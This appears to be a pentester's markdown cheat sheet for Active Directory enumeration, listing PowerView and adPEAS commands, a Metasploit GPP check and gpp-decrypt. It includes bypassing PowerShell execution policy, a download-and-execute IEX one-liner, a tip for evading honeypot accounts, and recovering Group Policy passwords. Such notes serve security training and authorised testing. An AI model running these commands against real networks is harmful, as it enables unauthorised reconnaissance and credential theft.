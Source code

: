 # PowerView
```powershell
# First we  need to shutdown execution policy using powershell
powershell -ep (or -ExecutionPolicy ) bypass
. .\ PowerView.ps1
| select OPTION # it's like grep in linux
 Domain
	Get-NetDomain # prints info about Domain
	Get-NetDomainController # points at DC 
	Get-DomainPolicy # shows policies
	(Get-DomainPolicy)."system access" # More info about policies 

 Users
	Get-netuser # prints all users inside the domain 
	Get-netuser | select cn # prints only users names
	Get-netuser | select samaccountname  # prints only users names
	Get-netuser | select description # prints all users description
	Get-UserProperty # show all users properties
	Get-UserProperty -Properties <OPTION> # filter properties by  
	Get-UserProperty -Properties pwdlastset # filter properties for pwdlastset - Prints all users last password set
	Get-UserProperty -Properties logoncount # prints users logon count (Avoid accounts that has 0 logon maybe honeypot)
	Get-UserProperty -Properties badpwd # prints bad password count 

Computers
	Get-NetComputer # Shows computers in the domain 
	Get-NetComputer -FullData # more info about computers
	Get-NetComputer -FullData | select OperatingSystem # prints only operating system info for computers in the domain 
	Get-ComputerInfo #Prints all info about the system 
	Get-DomainComputer COMPUTER_NAME # check for computer on domain

Groups
	Get-NetGroup # print groups 
	Get-NetGroup -GroupName "Domain Admins" # search for domain group names
	Get-NetGroup -GroupName *admin* # wildcard search 
	Get-NetGroupMember -GroupName "Domain Admins" # same options but prints memebers of the group

Shares
	Invoke-ShareFinder # prints all shares


GroupPolicies
	Get-NetGPO # prints group policies
	Get-NetGPO | select displayname, whenchanged # prints displayname and whenchanged from Get-NetGPO
```


# adPEAS 
https://github.com/61106960/adPEAS

start using one of the following:
```
Import-Module .\adPEAS.ps1
```
or
```
. . \adPEAS.ps1
```
or
```
gc -raw .\adPEAS.ps1 | iex
```
or
```
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/61106960/adPEAS/main/adPEAS.ps1')
```

after starting adpeas we can then start enumerating 
start adPEAS with all enumeration modules and enumerate the domain the logged-on user and computer is connected to.

```
Invoke-adPEAS
```

Start adPEAS with all enumeration modules and enumerate the domain 'contoso.com'.

```
Invoke-adPEAS -Domain 'contoso.com' -Server 'dc1.contoso.com'
```

Start adPEAS with all enumeration modules, enumerate the domain 'contoso.com' and use the domain controller 'dc1.contoso.com' for almost all enumeration requests.

```
Invoke-adPEAS -Domain 'contoso.com' -Server 'dc1.contoso.com'
```

Start adPEAS with all enumeration modules, enumerate the domain 'contoso.com' and use the passed PSCredential object during enumeration.
```
$SecPassword = ConvertTo-SecureString 'Passw0rd1!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('contoso\johndoe', $SecPassword)
Invoke-adPEAS -Domain 'contoso.com' -Cred $Cred
```


Start adPEAS with all enumeration modules, enumerate the domain 'contoso.com' and use the username 'contoso\johndoe' with password 'Passw0rd1!' during enumeration.

```
Invoke-adPEAS -Domain contoso.com -Username 'contoso\johndoe' -Password 'Passw0rd1!'
```



# In msfconsole 


## gpp / cPassword attack

- Check for gpp attack
```
smb_enum_gpp moudle 
```


# gpp-decrypt
gpp-decrypt <HASH>